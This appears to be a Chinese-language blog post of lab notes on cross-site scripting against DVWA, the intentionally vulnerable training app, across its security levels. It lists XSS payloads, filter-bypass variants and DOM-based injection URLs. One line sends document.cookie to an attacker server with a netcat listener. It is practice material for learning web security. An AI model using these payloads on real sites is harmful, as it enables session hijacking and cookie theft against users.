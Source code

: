 ```yaml
---
layout: post
title: XSS
subtitle: XSS
date: 2023-08-05 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
---
```

# XSS
## XSS(Reflected)

### LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```
### MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<img src="" onerror="alert(document.cookie)"/>
```
### HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

## XSS(Stored)

### LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### HIGH

name为注入点

## XSS(DOM)

### LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```
### MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
```
### HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```